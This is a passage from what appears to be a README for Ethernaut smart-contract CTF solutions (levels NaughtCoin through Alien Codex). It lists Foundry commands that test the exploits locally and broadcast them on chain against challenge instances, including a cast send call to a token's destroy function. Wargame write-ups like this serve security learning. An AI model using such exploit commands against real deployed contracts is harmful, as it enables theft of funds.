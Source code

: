 **Test**
```sh
forge test --match-contract NaughtCoinExploitTest -vvvv
```

**Exploit on chain**
```sh
forge script NaughtCoinExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_URL --broadcast --sig "run(address)" $INSTANCE_ADDRESS
```

## 16. Preservation
[Challenge & Exploit codes](Preservation)

**Test**
```sh
forge test --match-contract PreservationExploitTest -vvvv
```

**Exploit on chain**
```sh
forge script PreservationtExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_URL --broadcast --sig "run(address)" $INSTANCE_ADDRESS
```

## 17. Recovery
[Challenge & Exploit codes](Recovery)

**Exploit on chain**
```sh
cast send --private-key $PRIVATE_KEY --gas-limit 100000 $INSTANCE_ADDRESS "destroy(address)" <TOKEN ADDRESS>
```
The token address can be easily found in a blockchain explorer.

## 18. MagicNumber
[Challenge & Exploit codes](MagicNumber)

Exploit written in Huff: https://github.com/minaminao/huff-ethernaut-magic-number

**Test**
```sh
forge test --match-contract MagicNumberExploitTest -vvvv
```

**Exploit on chain**
```sh
forge script MagicNumberExploitScript -vvvv --private-key $PRIVATE_KEY --fork-url $RPC_URL --broadcast --sig "run(address)" $INSTANCE_ADDRESS
```

## 19. Alien Codex
[Challenge & Exploit codes](AlienCodex)

**Test**
```sh
forge test --match-contract AlienCodexExploitTest -vvvv
```

